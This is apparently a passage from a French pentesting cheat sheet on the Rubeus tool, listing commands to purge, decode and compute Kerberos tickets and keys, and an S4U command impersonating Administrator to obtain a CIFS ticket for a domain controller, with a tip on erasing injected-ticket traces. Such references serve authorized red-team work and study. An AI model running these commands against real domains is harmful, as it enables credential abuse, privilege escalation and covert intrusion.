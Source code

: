 ### 🧹 **Purger les tickets Kerberos**

```powershell
Rubeus.exe purge [/luid:<logon_id>]
```

* **Contexte :** Supprime tous les tickets [Kerberos](../../../Ressources/Windows/Kerberos.md) de la session courante ou d'une session spécifiée.
* **Usage :** Nettoyer les tickets après une opération, forcer une nouvelle authentification, ou effacer les traces d'un ticket injecté via PTT.
* **Options clés :**
    * `/luid:` : (Optionnel) L'ID de la session dont les tickets doivent être purgés.

---

### ℹ️ **Décrire un ticket Kerberos**

```powershell
Rubeus.exe describe /ticket:<base64_ticket>
```

* **Contexte :** Décode et affiche les informations contenues dans un ticket [Kerberos](../../../Ressources/Windows/Kerberos.md) (encodé en Base64).
* **Usage :** Analyser un ticket pour connaître l'utilisateur, le service cible, la durée de validité, les flags, etc.
* **Options clés :**
    * `/ticket:` : Le ticket [Kerberos](../../../Ressources/Windows/Kerberos.md) (TGT ou TGS) encodé en Base64.

---

### 🔑 **Calculer des Hashes/Clés Kerberos**

```powershell
Rubeus.exe hash /password:<password> [/user:<username>] [/domain:<domain>]
```

* **Contexte :** Calcule les différents hashes et clés [Kerberos](../../../Ressources/Windows/Kerberos.md) (NTLM, RC4_HMAC, AES128, AES256) à partir d'un mot de passe en clair.
* **Usage :** Utile pour obtenir les clés nécessaires à certaines attaques (comme `asktgt` avec `/aes256`) si vous avez le mot de passe mais pas les clés/hashes directement.
* **Options clés :**
    * `/password:` : Le mot de passe à hacher.
    * `/user:`, `/domain:` : (Optionnel) Utilisés pour calculer certains salts spécifiques.

---

### 💻 **Créer une session / Lancer un processus avec un ticket (S4U)**

```powershell
# Obtenir un TGS pour le compte machine cible, en usurpant un utilisateur (ex: Administrator)
Rubeus.exe s4u /user:<compte_service$> /aes256:<clé_aes_compte_service> /impersonateuser:<utilisateur_a_usurper> /msdsspn:<SPN_machine_cible> /altservice:<service_alternatif> /ptt

# Exemple : Obtenir un ticket CIFS pour DC01 en tant qu'Administrator, en utilisant le compte SVC_RUBEUS$
Rubeus.exe s4u /user:SVC_RUBEUS$ /aes256:xxx /impersonateuser:Administrator /msdsspn:cifs/DC01.domain.local /altservice:host /ptt
```
